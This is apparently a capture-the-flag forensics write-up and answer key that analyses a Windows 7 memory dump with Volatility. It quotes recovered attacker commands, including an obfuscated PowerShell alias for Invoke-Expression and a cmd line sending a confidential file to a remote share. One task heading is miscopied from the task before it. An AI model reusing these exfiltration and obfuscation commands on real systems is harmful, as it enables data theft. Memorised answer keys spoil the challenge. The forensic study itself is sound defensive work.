

# Client Communication

 ```bash
 A junior member of our security team has been performing research and testing on what we believe to be an old and insecure operating system. 
 We believe it may have been compromised and have managed to retrieve a memory dump of the asset. We want to confirm what actions were carried out by the attacker and if any other assets in our environment might be affected.
 ```

The following report addresses each question raised during the investigation.

# Investigation

## Task 1: What is the Operating System of the machine?

We began by profiling the memory sample to determine the exact operating system version and kernel details.

```bash
python2 vol.py -f ../recollection.bin imageinfo
```

```
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/maine/sherlock/recollection.bin)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf80002a3f120L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff80002a41000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2022-12-19 16:07:30 UTC+0000
     Image local date and time : 2022-12-19 22:07:30 +0600
```

**Answer:** The operating system is **Windows 7 SP1 x64**.

## Task 2: When was the memory dump created?

The date and time when the memory dump was captured is displayed directly in the `imageinfo` output.

```bash
Image date and time : 2022-12-19 16:07:30 UTC+0000
```

**Answer:** **`2022-12-19 16:07:30 UTC`**

## Task 3: After the attacker gained access to the machine, the attacker copied an obfuscated PowerShell command to the clipboard. What was the command?

After gaining access, the attacker copied an obfuscated PowerShell command. Volatility’s `clipboard` plugin reveals clipboard contents:

```bash
python2 vol.py -f ../recollection.bin clipboard --profile=Win7SP1x64
```

**Output (excerpt):**

```
Session    WindowStation Format                         Handle Object             Data
---------- ------------- ------------------ ------------------ ------------------ --------------------------------------------------
         1 WinSta0       CF_UNICODETEXT               0x6b010d 0xfffff900c1bef100 (gv '*MDR*').naMe[3,11,2]-joIN''
```

**Answer:** `(gv '*MDR*').naMe[3,11,2]-joIN''`

## Task 4: The attacker copied the obfuscated command to use it as an alias for a PowerShell cmdlet. What is the cmdlet name?

Executing the obfuscated command in a modern PowerShell terminal tells us which cmdlet it resolves to:

```powershell
PS> (gv '*MDR*').naMe[3,11,2]-joIN''
iex
```

`iex` is the built-in alias for `Invoke-Expression`, a commonly abused cmdlet for executing arbitrary code.

**Answer:** `Invoke-Expression`

## Task 5: A CMD command was executed to attempt to exfiltrate a file. What is the full command line?

Using `cmdscan`, we retrieved the attacker’s command history. One command attempted to exfiltrate a local file to a remote share:

```bash
python2 vol.py -f ../recollection.bin cmdscan --profile=Win7SP1x64
```

**Excerpt:**

```
Cmd #0 @ 0xc71c0: type C:\\Users\\Public\\Secret\\Confidential.txt > \\\\192.168.0.171\\pulice\\pass.txt
```

**Answer:** `type C:\\Users\\Public\\Secret\\Confidential.txt > \\\\192.168.0.171\\pulice\\pass.txt`

## Task 6: Following the above command, now tell us if the file was exfiltrated successfully?

The `consoles` plugin provides full console output, including error messages:

```bash
python2 vol.py -f ../recollection.bin consoles --profile=Win7SP1x64
```

```
PS C:\\Users\\user> type C:\\Users\\Public\\Secret\\Confidential.txt > \\\\192.168.0.171\\pulice\\pass.txt
The network path was not found.
At line:1 char:47
+ type C:\\Users\\Public\\Secret\\Confidential.txt > <<<<  \\\\192.168.0.171\\pulice\\pass.txt
    + CategoryInfo          : OpenError: (:) [], IOException
    + FullyQualifiedErrorId : FileOpenFailure
```

The error `The network path was not found` confirms the attempt failed.

**Answer:** **No**.

## Task 7: The attacker tried to create a readme file. What was the full path of the file?

A Base64-encoded PowerShell command was executed. Decoding it reveals the intended file:

```bash
echo "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi" | base64 -d
```

Decoded command: `echo "hacked by mafia" > "C:\\Users\\Public\\Office\\readme.txt"`

**Answer:** `C:\\Users\\Public\\Office\\readme.txt`

## Task 8: What was the Host Name of the machine?

The console output from the attacker’s session includes a `net users` command, which displays the hostname:

```
PS C:\\Users\\user> net users
User accounts for \\\\USER-PC
-------------------------------------------------------------------------------
Administrator            Guest                    user
The command completed successfully.
```

**Answer:** `USER-PC`

## Task 9: How many user accounts were in the machine?

From the same `net users` output, three accounts are listed: **Administrator**, **Guest**, and **user**.

**Answer:** **`3`**

## Task 10: In the "\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge" folder there were some sub-folders where there was a file named passwords.txt. What was the full file location/path?

We searched for files containing “pass” in their path using `filescan`:

```bash
python2 vol.py -f ../recollection.bin filescan --profile=Win7SP1x64 | grep "pass"
```

```
0x000000011fc10070      1      0 R--rw- \\Device\\HarddiskVolume2\\Users\\user\\AppData\\Local\\Microsoft\\Edge\\User Data\\ZxcvbnData\\3.0.0.0\\passwords.txt
```

**Answer:** `\\Device\\HarddiskVolume2\\Users\\user\\AppData\\Local\\Microsoft\\Edge\\User Data\\ZxcvbnData\\3.0.0.0\\passwords.txt`

## Task 11: A malicious executable file was executed using command. The executable EXE file's name was the hash value of itself. What was the hash value?

From the `consoles` output, the attacker listed the Downloads folder and executed a file named after its own hash:

```
Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-----        12/19/2022   2:59 PM     420864 b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1.exe
...
PS C:\\Users\\user\\Downloads> .\\b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1.exe
```

**Answer:** `b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1`

## Task 12: Following the previous question, what is the Imphash of the malicous file you found above?

The SHA‑256 hash was submitted to VirusTotal, which returned the following **imphash** (import hash):

**Answer:** `d3b592cd9481e4f053b5362e22d61595`




## Task 13: Following the previous question, what is the Imphash of the malicous file you found above?

Also from the VirusTotal report, the file’s creation time is:

**Answer:** `2022-06-22 11:49:04 UTC`

## Task 14: What was the local IP address of the machine?

Network connections were examined with the `netscan` plugin:

```bash
python2 vol.py -f ../recollection.bin netscan --profile=Win7SP1x64
```

The output shows several UDP listeners bound to `192.168.0.104`, for example:

```
0x11e3b2bf0        UDPv4    192.168.0.104:138              *:*                                   4        System         2022-12-19 15:32:47 UTC+0000
0x11e3b40e0        UDPv4    192.168.0.104:137              *:*                                   4        System         2022-12-19 15:32:47 UTC+0000
```

**Answer:** `192.168.0.104`

## Task 15: There were multiple PowerShell processes, where one process was a child process. Which process was its parent process?

Using the `pstree` plugin, we examined the process hierarchy:

```bash
python2 vol.py -f ../recollection.bin pstree --profile=Win7SP1x64
```

```
Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
 0xfffffa8005967060:explorer.exe                     2032   1988     23    906 2022-12-19 15:33:13 UTC+0000
...
.. 0xfffffa8003cbc060:cmd.exe                         4052   2032      1     23 2022-12-19 15:40:08 UTC+0000
... 0xfffffa8005abbb00:powershell.exe                 3532   4052      5    606 2022-12-19 15:44:44 UTC+0000
```

The PowerShell process with PID 3532 was spawned directly by `cmd.exe` (PID 4052).

**Answer:** `cmd.exe`

## Task 16: Attacker might have used an email address to login a social media. Can you tell us the email address?

We extracted strings from the entire memory image and searched for Gmail addresses:

```bash
strings ../recollection.bin | grep @gmail.com
```

```
mafia_code1337@gmail.com
...
emailmafia_code1337@gmail.com
```

**Answer:** `mafia_code1337@gmail.com`

## Task 17: Using MS Edge browser, the victim searched about a SIEM solution. What is the SIEM solution's name?

Browser history was recovered by dumping the Edge History database:

```bash
python2 vol.py -f ../recollection.bin --profile=Win7SP1x64 filescan | grep "History"
# File at offset 0x000000011e0d16f0 was identified as the History database.
mkdir temp
python2 vol.py -f ../recollection.bin --profile=Win7SP1x64 dumpfiles -Q 0x000000011e0d16f0 --dump-dir ./temp
```

Strings from the dumped file contained multiple references to **Wazuh** installation guides:

```
<https://documentation.wazuh.com/current/installation-guide/wazuh-agent/wazuh-agent-package-windows.html>
<https://documentation.wazuh.com/current/learning-wazuh/build-lab/install-windows-agent.html>
```

**Answer:** **`Wazuh`**

## Task 18: The victim user downloaded an exe file. The file's name was mimicking a legitimate binary from Microsoft with a typo (i.e. legitimate binary is powershell.exe and attacker named a malware as powershall.exe). Tell us the file name with the file extension?

Looking again at the Downloads listing from the console history, we see a file mimicking a legitimate Windows binary with an intentional typo:

```
-a---        12/19/2022   3:00 PM     309248 csrsss.exe
```

The legitimate system process is `csrss.exe` (Client/Server Runtime Subsystem). The extra “s” indicates a typo‑squatted malicious file.

**Answer:** `csrsss.exe`

# Summary of Findings

| # | Question | Answer |
| --- | --- | --- |
| 1 | Operating System | Windows 7 SP1 x64 |
| 2 | Memory dump creation time | 2022-12-19 16:07:30 UTC |
| 3 | Obfuscated clipboard command | `(gv '*MDR*').naMe[3,11,2]-joIN''` |
| 4 | Cmdlet decoded | `Invoke-Expression` (alias `iex`) |
| 5 | Exfiltration command line | `type C:\\Users\\Public\\Secret\\Confidential.txt > \\\\192.168.0.171\\pulice\\pass.txt` |
| 6 | Exfiltration successful? | No (network path not found) |
| 7 | “Readme” file path | `C:\\Users\\Public\\Office\\readme.txt` |
| 8 | Hostname | `USER-PC` |
| 9 | Number of user accounts | 3 (Administrator, Guest, user) |
| 10 | Edge passwords.txt path | `\\Device\\HarddiskVolume2\\Users\\user\\AppData\\Local\\Microsoft\\Edge\\User Data\\ZxcvbnData\\3.0.0.0\\passwords.txt` |
| 11 | Malicious executable hash | `b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1` |
| 12 | Imphash | `d3b592cd9481e4f053b5362e22d61595` |
| 13 | Malware creation time (UTC) | 2022-06-22 11:49:04 |
| 14 | Local IP address | `192.168.0.104` |
| 15 | Parent process of PowerShell | `cmd.exe` (PID 4052) |
| 16 | Attacker email | `mafia_code1337@gmail.com` |
| 17 | SIEM solution searched | Wazuh |
| 18 | Typosquatted executable | `csrsss.exe` |

The evidence shows that the attacker gained access, executed obfuscated PowerShell commands, attempted but failed to exfiltrate a confidential file, downloaded multiple malicious executables (one disguised as `csrsss.exe`), and left traces of a Gmail address linked to the activity. 
No lateral movement to other assets was observed in the provided memory sample, but the presence of network paths and shares suggests that the environment should be audited for similar indicators.